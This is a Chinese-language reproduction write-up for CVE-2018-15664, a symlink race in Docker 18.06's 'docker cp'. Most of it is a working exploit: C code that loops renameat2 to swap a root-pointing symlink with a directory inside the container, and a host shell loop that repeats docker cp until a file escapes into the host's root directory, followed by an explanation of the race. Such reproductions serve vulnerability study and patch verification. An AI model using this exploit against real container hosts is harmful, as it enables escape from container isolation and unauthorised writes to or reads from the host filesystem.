

# CVE-2018-15664 复现

## 环境

* Linux: Ubuntu 18.04
* Docker: 18.06.0

## 步骤

创建一个容器：

```shell
sudo docker run --name ubuntu -it ubuntu:18.04 bash
```

在容器中编译并运行exp（[exp.c](exp.c)）：

```c
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/syscall.h>

int main()
{
    char *testsymlink = "/testsymlink";
    char *testdir = "/testdir";

    symlink("/", testsymlink);
    mkdir(testdir, 0755);

    while (1)
        syscall(__NR_renameat2, AT_FDCWD, testsymlink, AT_FDCWD, testdir, 2);
    return 0;
}
```

上述exp会创建一个 **/testdir** 目录和一个指向根目录的符号链接 **/testsymlink** 。接下来会一直循环交换符号链接和目录。

回到宿主，在当前目录（$HOME）下创建一个文件 **testfile**，内容为“123”。然后一直循环执行 **docker cp** 并读取宿主根目录下的 **testfile** 文件：

```shell
while true; do
    sudo docker cp ./testfile ubuntu:/testdir/testfile && cat /testfile && break
done
```

每次的复制操作可能会遇到以下几种情况：

1. 检查路径时 /testdir 是符号链接，解析为容器根目录，文件会被复制到容器根目录中；
2. 检查路径时以及复制时 /testdir 都是普通目录，文件会被直接复制到 /testdir 目录中；
3. 检查路径时 /testdir 是普通目录，复制时是符号链接，解析为宿主根目录，文件会被复制到宿主根目录中。

原本宿主的根目录下面是没有这个文件的，所以会一直循环并报错，而直到容器中的 /testdir 指向了宿主的根目录而非容器内的根目录时，才会将文件复制到宿主根目录的位置，使得这个文件可以被读取到，并结束循环。

